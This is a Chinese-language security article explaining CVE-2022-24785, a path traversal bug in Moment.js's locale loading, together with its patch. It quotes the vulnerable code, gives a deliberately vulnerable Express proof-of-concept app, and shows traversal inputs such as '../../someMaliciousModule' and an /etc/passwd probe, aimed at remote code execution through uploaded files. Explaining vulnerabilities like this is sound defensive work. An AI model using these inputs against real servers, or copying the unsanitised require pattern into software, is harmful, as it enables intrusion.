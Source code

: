#  CVE-2022-24785 MomentJS 路径遍历的工作原理：详细的漏洞利用指南   
 Ots安全   2024-07-06 13:45  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
CVE-2022-24785 描述  
  
Moment.js 是一个 JavaScript 日期库，用于解析、验证、操作和格式化日期。路径遍历漏洞会影响  
1.0.1和版本之间的 Moment.js npm（服务器）用户  
2.29.1，尤其是当直接使用用户提供的语言环境字符串切换 Moment 语言环境时。此问题已在 中得到修补  
2.29.2，修补程序可应用于所有受影响的版本。解决方法是，在将用户提供的语言环境名称传递给 Moment.js 之前对其进行清理。  
  
识别漏洞  
  
我们决定通过 npm 在本地下载受影响的 MomentJS 版本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeO6ryLadnia49rjRQRuaq4yx7GFwJtDBp0vDvo2o9fnjN4tUDPIlYXwia0BvvQmhqaS3baQ9TsXFRw/640?wx_fmt=png&from=appmsg "")  
  
内部  
Moment-JS/node_modules/moment/src/lib/locale/locales.js有一个名为的函数  
loadLocale，其值为  
name：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeO6ryLadnia49rjRQRuaq4yGXwMtOeHCduMrccfibzOYibrj6o4HvBiaJoGxzzDHdIT6jO7UmsIHDuFw/640?wx_fmt=png&from=appmsg "")  
```
function loadLocale(name) {
    var oldLocale = null,
        aliasedRequire;
    // TODO: Find a better way to register and load all the locales in Node
    if (
        locales[name] === undefined &&
        typeof module !== 'undefined' &&
        module &&
        module.exports
    ) {
        try {
            oldLocale = globalLocale._abbr;
            aliasedRequire = require;
            aliasedRequire('./locale/' + name);
            getSetGlobalLocale(oldLocale);
        } catch (e) {
            // mark as not found to avoid repeating expensive file require call causing high CPU
            // when trying to find en-US, en_US, en-us for every format call
            locales[name] = null; // null means not found
        }
    }
    return locales[name];
}

```  
  
问题发生在函数根据用户输入动态地需要模块的行上  
14（loadLocale()）name。  
require()是一个 Node.js 函数，用于将模块或 JavaScript 文件包含并加载到 Node.js 应用程序中。  
```
//require set to a variable `aliasedRequire`
const aliasedRequire = require;
// essentially require('./locale/' + name);
aliasedRequire('./locale/' + name);
```  
  
如果我们控制name参数，我们可能会传递基于遍历的字符串：  
```
// Suppose name is set to a malicious value
const name = '../../someMaliciousModule'; 
aliasedRequire('./locale/' + name);
```  
  
这可能会加载  
./locale/../../uploads/someMaliciousModule，可能暴露敏感文件，甚至导致远程代码执行（RCE）。  
  
概念验证  
  
我们编写了一个使用易受攻击的函数的基本应用程序来演示该漏洞。以下是代码app.js：  
```
const express = require('express');
const moment = require('moment');

const app = express();
const port = 1337;

app.get('/time', (req, res) => {
    const locale = req.query.locale || 'en'; 

    // CVE-2022-24785 triggers at the following line in locate() function
    // locale() function passes the first parameter to require() without any sanitisation, this makes it easier to perform a path traversal attack
    const currentTime = moment().locale(locale).format('LLLL');

    res.send(`Current time (${locale}): ${currentTime}`);
});

app.listen(port, () => {
    console.log(`Server is running on http://localhost:${port}`);
});

```  
  
应用程序监听并具有接受查询参数的  
localhost:1337  
端点。应用程序将的值分配给变量，如果未提供，则默认为。例如，如果查询字符串是，则将是。在后端，应用程序使用动态加载与指定语言环境相对应的模块  
```
/timelocalereq.query.localelocale'en'req.query.locale?locale=frlocale'fr'aliasedRequire();
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeO6ryLadnia49rjRQRuaq4yg03ibuTV1HoYiaD1auCSemXYs2gmMkc5aIcNC3lT7g2z3Sb5VNYIh9vA/640?wx_fmt=png&from=appmsg "")  
  
但是，  
?locale=../../../../../../../etc/passwd例如，传递不起作用。  
require()在 Node.js 中使用时，它会尝试加载 JavaScript 模块或文件。如果我们要传递一个像  
../../../../../../etc/passwdto 这样的值  
require('./locale/' + somevalue)，Node.js 会尝试解析相对于应用程序当前工作目录的此路径。但是，Node.js 不会像  
/etc/passwd through那样直接读取任意文件  
require()，因为它需要加载模块或 JavaScript 文件。  
  
现在，我们假设该应用程序具有文件上传功能，允许我们上传和存储笔记。我们可以利用这一点来实现 RCE。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeO6ryLadnia49rjRQRuaq4y8twUQlPIXtecLCicIX9dTMDb3WibocdMa60LlbXEGOyUHp2MwC7MP2JQ/640?wx_fmt=png&from=appmsg "")  
  
路径遍历与上传文件的能力相结合，甚至  
.txt没有  
note扩展名，为我们提供了 RCE，因为  
require();。  
  
该补丁安全吗？  
  
让我们回顾一下 Moment JS 最新版本的补丁代码。  
```
npm install moment@latest
```  
```
function isLocaleNameSane(name) {
    // Prevent names that look like filesystem paths, i.e contain '/' or '\'
    // Ensure name is available and function returns boolean
    return !!(name && name.match('^[^/\\\\]*$'));
}

```  
  
到目前为止，还没有办法绕过这个正则表达式。我试过多种方法。  
  
好了，就这些了。  
  
本质上就是这样。这是一个非常基本的漏洞！据我所知，没有人针对此漏洞进行过概念验证，所以这对每个人来说都很酷。  
  
```
https://0xjay.com/how-cve-2022-24785-momentjs-path-traversal-works-detailed-exploit-guide
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
